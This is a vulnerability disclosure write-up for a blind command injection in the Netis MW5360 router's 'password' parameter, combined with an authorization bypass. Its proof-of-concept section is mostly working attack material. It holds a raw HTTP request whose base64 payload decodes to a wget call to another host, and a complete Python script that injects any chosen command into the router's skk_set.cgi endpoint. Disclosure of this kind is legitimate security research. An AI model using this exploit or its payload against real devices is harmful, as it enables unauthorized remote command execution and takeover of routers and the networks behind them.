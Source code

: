 # Blind Command Injection in "password" Parameter in Netis Router MW5360

## Description

A critical security vulnerability has been identified in the Netis router MW5360. This vulnerability results in a Blind Command Injection in the "password" parameter, leading to unauthorized access. Exploiting this vulnerability could allow attackers to execute arbitrary commands on the device, severely affecting its operational integrity and compromising network security.

![Netis Router](images/image.png)

## Firmware Information

- **Manufacturer's Address:** [Netis Systems](https://www.netis-systems.com)
- **Firmware Download Address:** [Firmware Download](https://www.netisru.com/Suppory/downloads/dd/1/img/530)

## Affected Version

- **Version:** Netis router MW5360 V1.0.1.3031

## Vulnerability Details

The vulnerability stems from improper handling of the "password" parameter within the MW5360 router's web interface. The router's login page authorization can be bypassed by simply deleting the authorization header, leading to the vulnerability. Attackers can inject a command in the 'password' parameter, encoded in base64, to exploit the command injection vulnerability. When exploited, this can lead to unauthorized command execution, potentially allowing the attacker to take control of the router.

![Dashboard](images/image1.png)

## POC Code

Here is the raw HTTP request indicating the vulnerable part:

```http
POST /cgi-bin/skk_set.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 80
Connection: close

password=YHdnZXQgaHR0cDovLzE5Mi4xNjguMS4yYA==&quick_set=ap&app=wan_set_shortcutz
```
The vulnerable part is the 'password' parameter. By injecting a command injection payload in base64 encoding, we can exploit the command injection vulnerability.


Below is the Python proof-of-concept (PoC) code to exploit the command injection vulnerability:

```python
import requests
import base64
import argparse

parser = argparse.ArgumentParser(description='Send a POST request to a target.')
parser.add_argument('target', help='The target to send the request to.')
parser.add_argument('command', help='The command to inject.')
args = parser.parse_args()

target = args.target
password = args.command
password = f"`{password}`"
password_b64 = base64.b64encode(password.encode()).decode()
target = f'{target}/cgi-bin/skk_set.cgi'

data = {
    'password': password_b64,
    'quick_set': 'ap',
    'app': 'wan_set_shortcutz'
}

response = requests.post(target, data=data)
print(response.text)
```

## POC Image

![POC](images/image2.png)